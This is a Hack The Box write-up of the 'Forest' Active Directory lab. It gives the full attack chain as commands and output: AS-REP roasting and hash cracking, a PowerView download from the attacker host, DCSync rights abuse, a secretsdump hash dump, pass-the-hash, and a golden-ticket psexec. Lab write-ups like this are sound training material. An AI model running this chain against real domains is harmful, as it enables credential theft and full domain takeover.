

---
tags:
  - hack
  - windows
---
# HTB: [Forest](https://app.hackthebox.com/machines/Forest)

> [!tip]- Summary with Spoilers
> - This Active Directory environment allowed enumeration of users via SMB and `ldapsearch`, revealing an account vulnerable to [ASREPRoasting](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast).
> - The compromised account, `svc-alfresco`, had permissions to perform mailbox replication, enabling an [Exchange DCSync attack](https://dirkanm.io/posts/dcsync-attack-using-powerview/) for domain dominance.
> - I leveraged `PowerView` to add a new user with `DCSync` rights, retrieving all domain hashes with `secretsdump`.

## Services

### TCP

- Target: `forest.htb 10.10.10.161`
- Command: `nmap -v --reason -Pn -T4 --min-rate 10000 -p- --open -sCV -oA nmap_tcp-forest.htb forest.htb

Only the relevant information for this box is shown below.

#### 445/tcp-microsoft-ds `Windows Server 2016 Standard 14393 microsoft-ds` `(workgroup: HTB)`

```console
$ nxc smb forest.htb -u '' -p '' --users
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\:
SMB         10.10.10.161    445    FOREST           -Username-                    -Last PW Set-       -BadPW- -Description-
SMB         10.10.10.161    445    FOREST           Administrator                 2021-08-31 00:51:58 0       Built-in account for administering the computer/domain
SMB         10.10.10.161    445    FOREST           Guest                         <never>             0       Built-in account for guest access to the computer/domain
SMB         10.10.10.161    445    FOREST           krbtgt                        2019-09-18 10:53:23 0       Key Distribution Center Service Account
SMB         10.10.10.161    445    FOREST           DefaultAccount                <never>             0       A user account managed by the system.
SMB         10.10.10.161    445    FOREST           $331000-VK4ADACQNUCA          <never>             0
SMB         10.10.10.161    445    FOREST           SM_2c8eef0a09b545acb          <never>             0
SMB         10.10.10.161    445    FOREST           SM_ca8c2ed5bdab4dc9b          <never>             0
SMB         10.10.10.161    445    FOREST           SM_75a538d3025e4db9a          <never>             0
SMB         10.10.10.161    445    FOREST           SM_681f53d4942840e18          <never>             0
SMB         10.10.10.161    445    FOREST           SM_1b41c9286325456bb          <never>             0
SMB         10.10.10.161    445    FOREST           SM_9b69f1b9d2cc45549          <never>             0
SMB         10.10.10.161    445    FOREST           SM_7c96b981967141ebb          <never>             0
SMB         10.10.10.161    445    FOREST           SM_c75ee099d0a64c91b          <never>             0
SMB         10.10.10.161    445    FOREST           SM_1ffab36a2f5f479cb          <never>             0
SMB         10.10.10.161    445    FOREST           HealthMailboxc3d7722          2019-09-23 22:51:31 0
SMB         10.10.10.161    445    FOREST           HealthMailboxfc9daad          2019-09-23 22:51:35 0
SMB         10.10.10.161    445    FOREST           HealthMailboxc0a90c9          2019-09-19 11:56:35 0
SMB         10.10.10.161    445    FOREST           HealthMailbox670628e          2019-09-19 11:56:45 0
SMB         10.10.10.161    445    FOREST           HealthMailbox968e74d          2019-09-19 11:56:56 0
SMB         10.10.10.161    445    FOREST           HealthMailbox6ded678          2019-09-19 11:57:06 0
SMB         10.10.10.161    445    FOREST           HealthMailbox83d6781          2019-09-19 11:57:17 0
SMB         10.10.10.161    445    FOREST           HealthMailboxfd87238          2019-09-19 11:57:27 0
SMB         10.10.10.161    445    FOREST           HealthMailboxb01ac64          2019-09-19 11:57:37 0
SMB         10.10.10.161    445    FOREST           HealthMailbox7108a4e          2019-09-19 11:57:48 0
SMB         10.10.10.161    445    FOREST           HealthMailbox0659cc1          2019-09-19 11:57:58 0
SMB         10.10.10.161    445    FOREST           sebastien                     2019-09-20 00:29:59 0
SMB         10.10.10.161    445    FOREST           lucinda                       2019-09-20 00:44:13 0
SMB         10.10.10.161    445    FOREST           svc-alfresco                  2024-10-01 16:39:18 0
SMB         10.10.10.161    445    FOREST           andy                          2019-09-22 22:44:16 0
SMB         10.10.10.161    445    FOREST           mark                          2019-09-20 22:57:30 0
SMB         10.10.10.161    445    FOREST           santi                         2019-09-20 23:02:55 0
```

I clean up this user list and put it in `u.txt`.

## Remote Code Execution

```console
$ for i in `cat u.txt`; do impacket-GetNPUsers HTB/$i -dc-ip 10.10.10.161 -request -no-pass ; done
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Getting TGT for $331000-VK4ADACQNUCA
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Getting TGT for Administrator
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Getting TGT for DefaultAccount
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Getting TGT for Guest
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Getting TGT for HealthMailbox0659cc1
[-] User HealthMailbox0659cc1 doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.12.0.dev1 - Copyright 2023 Fortra
...

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB:b67f10c40f871b2729811ca04711cc64$e08c3a8dcf1595ffcf340f429b6c47885733306d53dc8854cd4d2575dc8efb7b391a0192322f24a71bbc4176f5619eb72a95f0e17f09028b3766d30583851fc89ee21eddb55b4db12d9bf604d88544aa58b3ffe193f26dde31c27bfd6e486a17b520b0fe85219c2890e0b5c1856b99a9409b3c3b2e0294d04f2fcbb223647d3e699c25141320dc61a8fe64d180a66616e47ddbf8e0fdc828b35fdecc5a8701d7126a4a0db993dfc90b259415d86334f322b505526ecede299bd7809ee08b5d952fef28f6ad56e9682b75331e56f1a3dcd96743c998926d14bb89f540ef0b22e4
```

I ran it again to get it into `hashcat` format:

```console
$ impacket-GetNPUsers HTB/svc-alfresco -dc-ip 10.10.10.161 -request -no-pass -format hashcat
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB:a9f75d804d0e91cb6dd18f637deb5217$fbed08ecbfa783d522725111f7c0f27481d625d0c64dc53685fb7f63a3f4e8797f8c3967789b0c7578a05ba0ba9d1c774af119892c5135684602423793ff15d3addf7578a1f9d237509bf110fbfc46fd8b377bdd2fb8a7f2ec28460a6888ff8ebcdeaddfc1c648adf844f4231ad9e1100c60edee448909e20b1f418e86d8cab3513953b18fd04b75f936c2e6500ccb15b329177715f05067ea95cb97820ae5590e6754fc4baae7137642a0c881d14aef09a2808fbab637a2427c073dfe3e12d96f7fbf3e2550d7d85016141f987b9e6a3bc3207a3eed6ed872dc540c225aab50
```

It cracks quickly:

```console
$ hashcat ./forest.asrep ~/wordlists/rockyou.txt
hashcat (v6.2.6) starting in autodetect mode
...
$krb5asrep$23$svc-alfresco@HTB:a9f75d804d0e91cb6dd18f637deb5217$fbed08ecbfa783d522725111f7c0f27481d625d0c64dc53685fb7f63a3f4e8797f8c3967789b0c7578a05ba0ba9d1c774af119892c5135684602423793ff15d3addf7578a1f9d237509bf110fbfc46fd8b377bdd2fb8a7f2ec28460a6888ff8ebcdeaddfc1c648adf844f4231ad9e1100c60edee448909e20b1f418e86d8cab3513953b18fd04b75f936c2e6500ccb15b329177715f05067ea95cb97820ae5590e6754fc4baae7137642a0c881d14aef09a2808fbab637a2427c073dfe3e12d96f7fbf3e2550d7d85016141f987b9e6a3bc3207a3eed6ed872dc540c225aab50:s3rvice
```

The credentials `svc-alfresco:s3rvice` grant access to the domain controller:

```powershell
$ evil-winrm -i forest.htb -u svc-alfresco -p s3rvice
Evil-WinRM shell v3.5
...
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> cat ../Desktop/user.txt
2b2e5c...
```

## Privilege Escalation

I run `SharpHound.exe` and load the data into `BloodHound`. The compromised `svc-alfresco` account is powerful:



One of the groups that `svc-alfresco` has `GenericAll` control over is called `Exchange Windows Permissions`.

From [Dirk-jan Mollema](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/):

> The Exchange Windows Permissions group has `WriteDacl` access on the Domain object in Active Directory, which enables any member of this group to modify the domain privileges, among which is the privilege to perform `DCSync` operations.

This overpowered group was [changed by Microsoft back in February of 2019](https://techcommunity.microsoft.com/t5/exchange-team-blog/released-february-2019-quarterly-exchange-updates/ba-p/609061) so that this particular vector is no longer possible, but it works for this box.

Using the `svc-alfresco` account membership in `Account Operators`, I add a new user named "x" and make it a member of `Exchange Windows Permissions`:

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user x hunter2 /add /dom
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" /add x
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions"
Group name     Exchange Windows Permissions
Comment        This group contains Exchange servers that run Exchange cmdlets on behalf of users via the management service. Its members have permission to read and modify all Windows accounts and groups. This grou
p should not be deleted.

Members

-------------------------------------------------------------------------------
x
The command completed successfully.
```

Next, I'll work on adding the `DCSync` privilege. There are different ways to do this but I'll use PowerView.

Creating the PowerShell credential object:

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $pass = convertto-securestring 'hunter2' -asplaintext -force
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $cred = new-object system.management.automation.pscredential('htb\x', $pass)
```

Import PowerView:

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> iwr 10.10.14.21/PowerView.ps1 -outfile pv.ps1
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> import-module ./pv.ps1
```

Adding `DCSync` rights:

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> add-domainobjectacl -credential $cred -targetidentity "DC=htb,DC=local" -principalidentity x -rights DCSync
```

Now I can dump the hashes and own the domain:

```console
$ impacket-secretsdump -just-dc x:hunter2@forest.htb
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
...
```

```powershell
$ evil-winrm -i forest.htb -u administrator -H 32693b11e6aa90eb43d32c72a07ceea6
Evil-WinRM shell v3.5
...
*Evil-WinRM* PS C:\Users\Administrator\Documents> cat ../Desktop/root.txt
ad4c398...
```

## Post-exploitation

With the `krbtgt` hash from above and the domain SID (from `enum4linux-ng`, or via PowerView, or…) I can grab a [golden ticket](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/golden-ticket):

```console
$ impacket-ticketer -nthash 819af826bb148e603acb0f33d17632f8 -domain-sid S-1-5-21-3072663084-364016917-1341370565 -domain htb.local e
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for htb.local/e
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncAsRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncASRepPart
[*] Saving ticket in e.ccache
```

Export the variable for the ticket name:

```console
$ export KRB5CCNAME=e.ccache
```

The `psexec` command that's coming soon can be a little tricky about which parts need to resolve as DNS names. I update `/etc/hosts`:

```text
10.10.10.161 forest.htb htb.local forest
```

Now, `psexec` should work with the malicious ticket. This particular DC currently has a clock skew of approximately seven-minutes, so this command uses [faketime](https://pkg.kali.org/pkg/faketime) to match the skew.

```console
$ faketime -f +7m impacket-psexec htb.local/e@forest -k -no-pass -debug
Impacket v0.12.0.dev1 - Copyright 2023 Fortra
...
[+] SPN CIFS/FOREST@HTB.LOCAL not found in cache
[+] AnySPN is True, looking for another suitable SPN
[+] Returning cached credential for KRBTGT/HTB.LOCAL@HTB.LOCAL
[+] Using TGT from cache
[+] Trying to connect to KDC at HTB.LOCAL:88
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

## Credits

IppSec's [HackTheBox - Forest](https://www.youtube.com/watch?v=H9FcE_FMZio) helped me understand the `DCSync` privilege for PE/DA, as well as how to create the golden ticket:
